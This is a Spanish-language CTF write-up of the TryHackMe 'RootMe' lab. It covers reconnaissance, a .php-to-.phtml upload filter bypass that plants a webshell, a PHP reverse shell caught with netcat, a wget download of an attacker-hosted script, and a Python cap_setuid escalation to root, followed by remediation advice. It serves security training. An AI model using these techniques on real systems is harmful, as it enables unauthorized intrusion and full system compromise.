# Desafío práctico: RootMe – TryHackMe

**Autor:** Siu Irenko Navarro Vicencio
**Sala:** [RootMe – TryHackMe](https://tryhackme.com/room/rrootme)
**Dificultad:** Fácil
**Fecha:** 25 Octubre 2026

---

## 1. Objetivo y descripción del laboratorio

El objetivo de este laboratorio es resolver la máquina **RootMe** de TryHackMe mediante un proceso completo de reconocimiento, identificación de vulnerabilidades y explotación controlada, hasta obtener acceso como usuario `www-data` y posteriormente escalar privilegios hasta `root`.

La máquina expone un servicio web (**HackIT**) con un panel de carga de archivos vulnerable a *unrestricted file upload*, lo que permite obtener ejecución remota de comandos (RCE). A partir de ahí se identifica un vector de escalada de privilegios local relacionado con el binario de Python, logrando comprometer completamente el sistema y capturando las flags `user.txt` y `root.txt`.

Todas las pruebas se realizaron exclusivamente dentro del entorno autorizado de TryHackMe.

---

## 2. Herramientas utilizadas

| Herramienta | Uso |
|---|---|
| `nmap` | Escaneo de puertos y detección de servicios/versiones |
| Navegador web (Firefox) | Exploración manual del sitio y del panel de carga |
| `gobuster` | Enumeración de directorios y recursos ocultos |
| Webshell PHP (`.phtml`) | Ejecución remota de comandos tras el bypass de subida |
| `netcat (nc)` | Listener para recibir la reverse shell |
| `python3 -m http.server` | Servir herramientas/exploits hacia la máquina víctima |
| `find` | Búsqueda de binarios con bit SUID y permisos especiales |
| Script Python personalizado (`hackeoroom.py`) | Explotación del vector de escalada de privilegios |
| `wget` | Transferencia del script de explotación a la víctima |

---

## 3. Metodología y etapas

### 3.1 Reconocimiento (Nmap)

Se realizó un escaneo de puertos y versiones sobre la máquina objetivo:

```bash
nmap -sC -sV 10.66.161.24
```

Resultado: dos puertos abiertos.

- **22/tcp** – OpenSSH 8.2p1 (Ubuntu)
- **80/tcp** – Apache httpd 2.4.41 (Ubuntu) — sitio *"HackIT - Home"*


*Figura 1. Escaneo de puertos y servicios con Nmap.*

### 3.2 Exploración del sitio web

Se accedió al puerto 80 para reconocer visualmente la aplicación web expuesta.


*Figura 2. Página principal del sitio "HackIT".*

### 3.3 Enumeración de directorios (Gobuster)

Se enumeraron rutas y recursos ocultos en el servidor web:

```bash
gobuster dir -u http://10.66.161.24/ -w /usr/share/wordlists/dirb/common.txt
```

Se identificaron, entre otros, los directorios `/panel/` y `/uploads/`, claves para la explotación posterior.


*Figura 3. Directorios descubiertos, incluyendo `/panel/` y `/uploads/`.*

### 3.4 Identificación del panel de carga de archivos

Al ingresar a `/panel/` se encontró un formulario de carga de archivos sin autenticación.


*Figura 4. Formulario de subida de archivos en `/panel/`.*

### 3.5 Explotación — Bypass de validación de extensión (Unrestricted File Upload)

Se intentó subir un webshell en PHP (`.php`), el cual fue bloqueado por un filtro de extensión:


*Figura 5. El servidor rechaza explícitamente archivos `.php` ("PHP não é permitido!").*

Se intentó entonces con la extensión alternativa **`.phtml`**, interpretada igualmente como PHP por Apache pero no contemplada en el filtro, logrando subir el webshell con éxito.


*Figura 6. Carga exitosa del webshell mediante extensión `.phtml`.*

### 3.6 Confirmación de ejecución remota de comandos (RCE)

Se accedió al archivo subido en `/uploads/` y se verificó la ejecución de comandos del sistema operativo a través del parámetro `cmd`:

```
http://10.66.161.24/uploads/prueba1.phtml?cmd=whoami
```


*Figura 7. Ejecución remota de comandos confirmada (`whoami` → `www-data`).*

### 3.7 Obtención de shell interactiva (Reverse Shell)

Se preparó un listener en la máquina atacante y, mediante el webshell, se ejecutó un payload de reverse shell PHP (`php-reverse-shell.phtml`) previamente subido al panel, obteniendo una shell interactiva como `www-data`.

```bash
nc -nlvp 443
```


*Figura 8. Preparación del listener en la máquina atacante.*


*Figura 9. Conexión entrante recibida; shell como `www-data` y enumeración inicial de `/home`.*

### 3.8 Enumeración post-explotación y búsqueda del vector de escalada

Con acceso como `www-data`, se buscaron binarios con permisos especiales (SUID) y se inspeccionó el binario de Python presente en el sistema:

```bash
find / -perm -u=s -type f 2>/dev/null
ls -l /usr/bin/python
```


*Figura 10. Listado de binarios con bit SUID en el sistema.*


*Figura 11. `/usr/bin/python` enlazado a `python2`, binario con capacidades elevadas (`CAP_SETUID`) que permite asignar UID 0 desde un script Python.*

### 3.9 Escalada de privilegios

Aprovechando que el binario `python2` cuenta con la capacidad de Linux `cap_setuid+ep`, se creó un script local para elevar privilegios a `root`:

```python
import os
os.setuid(0)
os.system('bash')
```


*Figura 12. Script `hackeoroom.py` preparado en la máquina atacante.*

El script se puso a disposición mediante un servidor HTTP local:

```bash
python3 -m http.server 80
```


*Figura 13. Servidor HTTP activo para transferir el script a la víctima.*

Desde la shell obtenida en la víctima, se descargó el script con `wget`:

```bash
wget 192.168.132.226/hackeoroom.py
```


*Figura 14. Transferencia exitosa de `hackeoroom.py` a la máquina víctima.*

Al ejecutar el script con el intérprete `python` (symlink a `python2` con `CAP_SETUID`), se obtuvo una shell con UID 0:

```bash
python hackeoroom.py
```


*Figura 15. Ejecución del script; `whoami` confirma acceso como `root`.*

### 3.10 Shell interactiva como root y captura de flags

Se estabilizó la shell con `script /dev/null -c bash` y se obtuvo acceso completo al sistema de archivos, incluyendo la flag de `root`:


*Figura 16. Shell interactiva como `root` y obtención de la flag en `/root/root.txt`.*

Finalmente, se localizó y capturó la flag de usuario:

```bash
find / -name user.txt 2>/dev/null
cat /var/www/user.txt
```


*Figura 17. Obtención de la flag en `/var/www/user.txt`.*

> **Nota:** por recomendación de la actividad, las flags completas no se incluyen en texto plano en este repositorio público; su obtención queda acreditada mediante las capturas de pantalla anteriores.

---

## 4. Vulnerabilidades encontradas e impactos

### 4.1 Carga de archivos sin restricción adecuada (Unrestricted File Upload) — CWE-434

**Descripción:** El panel de carga en `/panel/` solo filtraba la extensión `.php`, sin validar el tipo MIME real del archivo, su contenido, ni aplicar una lista blanca de extensiones permitidas. Extensiones alternativas interpretables como PHP por Apache (`.phtml`, `.php5`, etc.) no estaban contempladas en el filtro.

**Condiciones que permitieron la explotación:**
- Filtro basado en lista negra (*blacklist*) de una sola extensión en lugar de lista blanca (*whitelist*).
- Apache configurado para ejecutar como PHP múltiples extensiones (`.phtml`, `.php5`) sin que esto fuera contemplado por la aplicación.
- Ausencia de autenticación en el panel de administración.
- Directorio de subida (`/uploads/`) accesible y con ejecución de scripts habilitada.

**Impacto:** Ejecución remota de comandos (RCE) con los privilegios del servidor web (`www-data`), lo que constituye la puerta de entrada al sistema completo.

### 4.2 Escalada de privilegios mediante capacidades de Linux mal configuradas en Python 2

**Descripción:** El binario `/usr/bin/python` (enlazado a `python2`) tenía asignada la capacidad de Linux `cap_setuid+ep`, permitiendo que cualquier proceso ejecutado con ese intérprete pudiera invocar `os.setuid(0)` y elevar su propio UID a `root`, sin necesidad de contraseña ni de un binario SUID tradicional.

**Condiciones que permitieron la explotación:**
- Asignación innecesaria de capacidades privilegiadas (`setcap`) a un intérprete de propósito general.
- Falta de monitoreo/auditoría sobre binarios con capacidades especiales (`getcap -r / 2>/dev/null`).
- Uso de una versión obsoleta y sin soporte (Python 2.7).

**Impacto:** Escalada total de privilegios de `www-data` a `root`, comprometiendo la totalidad del sistema.

### 4.3 Exposición de información y falta de endurecimiento general

**Observaciones adicionales:**
- Directorios sensibles como `.htaccess`, `.htpasswd` devuelven `403` pero confirman su existencia (fuga de información mínima vía enumeración).
- Ausencia de la bandera `HttpOnly` en cookies de sesión (`PHPSESSID`), detectada en el escaneo Nmap, lo que facilita el robo de sesión vía XSS en caso de existir dicha vulnerabilidad adicional.

---

## 5. Remediaciones recomendadas

| Vulnerabilidad | Remediación propuesta |
|---|---|
| Unrestricted File Upload | Validar el tipo de archivo por **lista blanca** de extensiones permitidas y por **contenido real** (magic bytes / MIME type), nunca solo por extensión. Deshabilitar la ejecución de scripts en el directorio de subidas (ej. `php_admin_flag engine off` en el `VirtualHost` de `/uploads/`, o separar el almacenamiento en un dominio/bucket sin ejecución). Renombrar los archivos subidos con un identificador aleatorio y almacenarlos fuera del `webroot` cuando sea posible. |
| Extensiones alternativas interpretadas como PHP | Configurar Apache (`AddHandler`/`AddType`) para que **solo** `.php` sea interpretado como PHP, eliminando el procesamiento de `.phtml`, `.php5`, `.pht`, etc. |
| Capacidades (`cap_setuid`) en Python | Eliminar capacidades innecesarias de binarios interpretados: `sudo setcap -r /usr/bin/python2.7`. Aplicar el **principio de mínimo privilegio**: ningún intérprete de propósito general debería tener capacidades de asignación de UID. |
| Auditoría de binarios privilegiados | Incorporar revisiones periódicas con `find / -perm -4000` y `getcap -r /` dentro de procesos de *hardening* y auditoría de configuración. |
| Panel administrativo sin autenticación | Implementar autenticación y autorización (y, si es posible, restricción de acceso por IP/VPN) para cualquier panel de administración o carga de archivos. |
| Cookies de sesión | Configurar las cookies de sesión con los atributos `HttpOnly`, `Secure` y `SameSite`. |
| Actualización de componentes | Migrar de Python 2.7 (EOL) a una versión soportada, y mantener Apache/PHP actualizados a versiones con soporte de seguridad vigente. |

---

## 6. Conclusiones y aprendizajes obtenidos

Este laboratorio permitió reforzar de forma práctica el proceso completo de un *pentest* de caja negra: reconocimiento, enumeración, explotación y post-explotación/escalada de privilegios.

Los principales aprendizajes obtenidos fueron:

- La importancia de validar archivos subidos por **contenido real** y no únicamente por extensión, ya que los filtros de lista negra son triviales de evadir (`.php` → `.phtml`).
- Cómo la configuración del manejador de PHP en Apache puede ampliar, sin intención, la superficie de ataque de un filtro de subida de archivos aparentemente correcto.
- La relevancia de auditar las **capacidades de Linux** (`getcap`) además de los bits SUID tradicionales, ya que son un vector de escalada de privilegios frecuentemente pasado por alto.
- La utilidad de combinar una reverse shell inestable con herramientas como `script /dev/null -c bash` para obtener una shell interactiva estable y trabajar con mayor comodidad.
- La disciplina de documentar cada etapa con evidencia reproducible, lo que resulta tan importante como la explotación técnica en sí misma dentro de un informe profesional de pentesting.

---

## 7. Estructura del repositorio

```
.
├── README.md
└── evidencias/
    ├── 01-nmap-scan.png
    ├── 02-sitio-web.png
    ├── 03-gobuster-resultados.png
    ├── 04-panel-upload.png
    ├── 05-upload-php-rechazado.png
    ├── 06-upload-phtml-exitoso.png
    ├── 07-webshell-whoami.png
    ├── 08-listener-preparado.png
    ├── 09-reverse-shell-www-data.png
    ├── 10-busqueda-suid.png
    ├── 11-symlink-python2.png
    ├── 12-script-exploit.png
    ├── 13-servidor-http-exploit.png
    ├── 14-descarga-exploit-wget.png
    ├── 15-ejecucion-exploit-root.png
    ├── 16-shell-root-flag-root.png
    └── 17-flag-user.png
```

---
